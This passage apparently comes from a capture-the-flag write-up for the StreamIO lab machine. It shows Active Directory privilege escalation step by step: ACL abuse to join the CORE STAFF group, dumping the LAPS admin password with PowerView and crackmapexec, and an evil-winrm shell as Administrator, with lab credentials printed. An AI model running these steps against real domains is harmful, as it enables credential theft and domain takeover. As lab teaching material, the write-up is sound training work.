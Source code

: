 Give jdgodd all the rights and add him as a member off CORE STAFF:
```Powershell
PS C:\Users\nikk37> Add-DomainObjectAcl -Credential $Cred -TargetIdentity "CORE STAFF" -PrincipalIdentity jdgodd -Rights All

PS C:\Users\nikk37> Add-DomainGroupMember -Identity "CORE STAFF" -Members "jdgodd" -Credential $Cred -Verbose
```

No errors so far, lets check if it works:
```Powershell
PS C:\Users\nikk37> Get-DomainGroupMember -Identity 'CORE STAFF'

GroupDomain             : streamIO.htb
GroupName               : CORE STAFF
GroupDistinguishedName  : CN=CORE STAFF,CN=Users,DC=streamIO,DC=htb
MemberDomain            : streamIO.htb
MemberName              : JDgodd
MemberDistinguishedName : CN=JDgodd,CN=Users,DC=streamIO,DC=htb
MemberObjectClass       : user
MemberSID               : S-1-5-21-1470860369-1569627196-4264678630-1104
```

Great! Lets dump LAPS:
```Powershell 
PS C:\Users\nikk37> Get-DomainObject dc.streamio.htb -Credential $Cred -Properties "ms-mcs-AdmPwd",name

name ms-mcs-admpwd
---- -------------
DC   !vG(xZ{)5b8!4G
```

Alternatively we can use crackmapexec to dump LAPS:
```bash
$ crackmapexec ldap 10.129.186.175 -u jdgodd -p 'JDg0dd1s@d0p3cr3@t0r' -M laps
```
![](images/image08.png)

Now we can get a shell as Administrator using Evil-Winrm:
```bash
$ evil-winrm -u Administrator -p '!vG(xZ{)5b8!4G' -i 10.129.186.175

*Evil-WinRM* PS C:\Users\Administrator\Documents> whoami
streamio\administrator
```

We are Administrator!
